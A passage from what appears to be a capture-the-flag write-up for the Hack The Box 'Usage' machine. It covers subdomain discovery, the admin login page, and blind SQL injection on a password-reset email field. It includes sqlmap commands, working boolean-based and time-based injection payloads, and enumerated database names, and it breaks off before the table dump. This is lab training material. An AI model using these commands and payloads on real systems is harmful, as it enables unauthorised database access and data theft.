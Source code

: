 - `-fs 178`: Filtered out responses matching the size of an invalid host (178 bytes).

**Results:**

- `admin.usage.htb` (Status: 200, Size: 3304)

Added to `/etc/hosts`:

```bash
echo "10.10.11.18 admin.usage.htb" | sudo tee -a /etc/hosts
```

Visiting `http://admin.usage.htb/` revealed a Laravel AdminLTE dashboard with a login form:

```html
<form action="http://admin.usage.htb/admin/auth/login" method="post">
  <input type="text" class="form-control" placeholder="Username" name="username" value="">
  <input type="password" class="form-control" placeholder="Password" name="password">
  <input type="checkbox" name="remember" value="1" checked>
  <input type="hidden" name="_token" value="JMdGnqJD4wRMQL3HCYKTfvQrVlJKZqFriewAPoTI">
  <button type="submit" class="btn btn-primary btn-block btn-flat">Login</button>
</form>
```

### SQL Injection

![images (10)](images (10).png)

The `/registration` form included a password reset feature vulnerable to SQL injection. A request was captured using Burp Suite and saved as `reset_password.req`. SQLmap was used to test for vulnerabilities:

```bash
sqlmap -r ~/Documents/htb/usage/reset_password.req -p email --dbms=mysql --answers="follow=Y" --batch --level 5 --risk 3
```

**Results:**

- **Boolean-based blind**: `email=test@test.com' AND 3819=(SELECT (CASE WHEN (3819=3819) THEN 3819 ELSE (SELECT 5811 UNION SELECT 1136) END))-- -`
- **Time-based blind**: `email=test@test.com' AND 4024=BENCHMARK(5000000,MD5(0x7742566d))-- qFny`

Enumerated databases:

```bash
sqlmap -r ~/Documents/htb/usage/reset_password.req -p email --dbms=mysql --answers="follow=Y" --dbs
```

**Results:**

```
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog
```

Dumped tables from `usage_blog`:
